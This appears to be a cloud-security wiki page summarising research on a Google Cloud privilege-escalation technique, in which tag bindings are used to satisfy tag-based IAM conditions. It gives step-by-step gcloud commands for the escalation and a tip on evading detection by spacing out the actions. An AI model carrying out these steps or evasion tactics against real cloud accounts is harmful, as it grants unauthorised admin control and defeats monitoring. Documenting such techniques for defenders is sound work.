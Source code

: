 ```yaml
---
author_name: Ariel Kalman
title: Tag Your Way In - GCP Privilege Escalation Using Tags
description: A new privilege escalation technique in Google Cloud that leverages tag bindings to bypass IAM conditions and gain unauthorized access to sensitive resources.
---
```



<div class="grid cards" markdown>

-   :material-account:{ .lg .middle } __Original Research__

    ---

    <aside style="display:flex">
    <p><a href="https://www.mitiga.io/blog/tag-your-way-in-new-privilege-escalation-technique-in-gcp">Tag Your Way In: New Privilege Escalation Technique in GCP</a> by <a href="https://www.linkedin.com/in/ariel-kalman-47314a19b/">Ariel Kalman</a></p>
    <p><img src="/images/researchers/ariel_kalman.jpg" alt="Ariel Kalman" style="width:44px;height:44px;margin:5px;border-radius:100%;max-width:unset"></img></p>
    </aside>

</div>


GCP IAM Conditions allow fine-grained access control using context like time, resource type, and tags—but those same tags can enable unexpected privilege escalation. **In this post, we show how a user with only viewer and tagUser roles can escalate to full admin access without changing any IAM policy**.

## Background
#### Conditional Access Based on Tags

In GCP, IAM policies control access by assigning roles to members on resources, optionally using conditions based on request time, IP address, or resource tags. Tags are key-value pairs that can be inherited and used in IAM Conditions, such as resource.matchTag('env', 'sandbox'), to enforce fine-grained access control.

For example, this is an IAM policy with a resource tag condition:
```json
{
  "bindings": [
    {
      "condition": {
        "description": "Only allow access if a resource is tagged env=sandbox",
        "expression": "resource.matchTag('env', 'sandbox')",
        "title": "SandboxTagCondition"
      },
      "members": [
        "group:sandbox_users@**************"
      ],
      "role": "roles/compute.admin"
    }
}
```

#### TagBindings and Role-Based Tag Management
Tags are attached to resources using tagBindings, which link a resource to a specific tagValue.


#### Tag Management Roles

In GCP, tag management access is controlled using the following IAM roles:

- [`roles/resourcemanager.tagViewer`](https://cloud.google.com/iam/docs/understanding-roles#resourcemanager.tagViewer)
- [`roles/resourcemanager.tagUser`](https://cloud.google.com/iam/docs/understanding-roles#resourcemanager.tagUser)
- [`roles/resourcemanager.tagAdmin`](https://cloud.google.com/iam/docs/understanding-roles#resourcemanager.tagAdmin)

!!! Tip
    To evade detection, an attacker could perform the tag binding and the privileged action in separate sessions or with a time gap greater than X minutes, breaking the detectable sequence used in correlation rules


## How to Exploit


### 1. Enumerate IAM Policies  
```shell 
gcloud projects get-iam-policy <PROJECT_ID>
``` 
**Required Role:**  `roles/resourcemanager.projects.getIamPolicy`  
**Impact:**  Discover IAM bindings and tag-based conditions
<figure markdown>
  ![IAM Policy Output Example](../../images/gcp/exploitation/tagbindings_privilege_escalation/iam_enumeration.png){ loading=lazy }
</figure>


### 2. List Available Tags  
```shell 
gcloud resource-manager tags keys list --parent=folders/<FOLDER_ID>
gcloud resource-manager tags values list --parent=tagKeys/<TAG_KEY_ID>
```
**Role:**  `roles/resourcemanager.tagUser`  
**Impact:**  Enumerate tag keys and values.
<figure markdown>
  ![Tags Enumeration Example](../../images/gcp/exploitation/tagbindings_privilege_escalation/privileged_operation.png){ loading=lazy }
</figure>


### 3. Bind Tags to Resource  
```shell
gcloud resource-manager tags bindings create \
  --tag-value=tagValues/<TAG_VALUE_ID> \
  --parent=//cloudresourcemanager.googleapis.com/projects/<PROJECT_ID>
```
**Role:**  `roles/resourcemanager.tagUser`  
**Impact:**  Attach tags to satisfy IAM conditions.
<figure markdown>
  ![tagBinding Creation Example](../../images/gcp/exploitation/tagbindings_privilege_escalation/tag_binding_creation.png){ loading=lazy }
</figure>


### 4. Exploit Conditional Access  
```shell
gcloud compute instances delete-access-config instance-<INSTANCE_NAME> \
  --zone=us-central1-c \
  --access-config-name="External NAT" \
  --network-interface=nic0

```  
**Role:** `roles/compute.admin`  
**Impact:**  Access resources gated by tag-based conditions.
<figure markdown>
  ![Admin Operation Example](../../images/gcp/exploitation/tagbindings_privilege_escalation/tags_enumeration.png){ loading=lazy }
</figure>


!!! Warning
    The granted privileged role depends entirely on the IAM policy. If the policy assigns `roles/compute.admin` to resources with the tag, that's what the attacker gets, but it could just as easily be `roles/compute.viewer` or any other role.


## Impact
This privilege escalation technique can lead to unauthorized access, full admin control over key services, and long-term persistence by exploiting dynamic tag-based IAM conditions. It’s a realistic risk: public Terraform modules frequently assign the tagUser role to non-admins like CI/CD accounts or integration service accounts, as seen in examples from [terraform-example-foundation](https://github.com/terraform-google-modules/terraform-example-foundation/blob/main/0-bootstrap/sa.tf) and [cloud-foundation-fabric](https://github.com/GoogleCloudPlatform/cloud-foundation-fabric/blob/master/fast/stages/0-bootstrap/README.md).

!!! Note
    For a deeper technical walkthrough, check out the [full blog post](https://www.mitiga.io/blog/tag-your-way-in-new-privilege-escalation-technique-in-gcp) or [contact me](https://www.linkedin.com/in/ariel-kalman-47314a19b/) for more information.


